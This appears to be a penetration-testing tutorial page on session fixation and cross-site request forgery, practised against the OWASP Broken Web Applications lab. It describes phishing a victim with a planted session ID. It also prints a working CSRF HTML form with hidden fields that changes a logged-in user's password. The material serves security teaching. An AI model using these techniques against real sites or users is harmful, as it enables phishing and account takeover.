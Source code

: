 ## Session management flaws - Session Fixation

Session ID should change after user login, orelse - Session fixation vulnerability can be exploited:

![session-fixation-vulnerability](./session-fixation-vulnerability.JPG)

To test this vulnerability, in the OWASP's Broken Web Applications installed on your Kali machine, click OWASP WebGoat link. Authenticate and go to session fixation vulnerability. Send a phising email containig  a madeup session id (that you - the attacker will use after the victim has logged in with your made-up session id and it's credentials) inside a legitim URL that points to the trusted app for the user. Follow all steps, guided by the OWOASP WebGoat interface, in order to explore how penetration test is done.

## Session management flaws - Cross Site Request Forgery

Once again you can test this vulnerability on the OWASP's Broken Web Applications installed on your Kali machine:

1. Click the CSRF button and after that copy from page source the  change pass form, into a page of yours.

```HTML
<h3>Just click the button</h3>
<form action="http://owaspbwa.com/dvwa/vulnerabilities/csrf" method="GET"> <!-- explicitly change the action URL of the GET method with the one of the page where the form exists-->
<input type="hidden" name="password_new" value="111"> <!-- hide the pass input for the victim -->
<input type="hidden" name="password_conf" value="111"> <!-- hide the new pass input for the victim -->
<input type="submit" value="Change" name="Change">
</form>
```
While the user is logged in the app (or you, testing this vulnerability), if he clicks Change button in the page that loads this script(the one provided by an attacker who knows the CSFR vulnerability), his password will be changed.
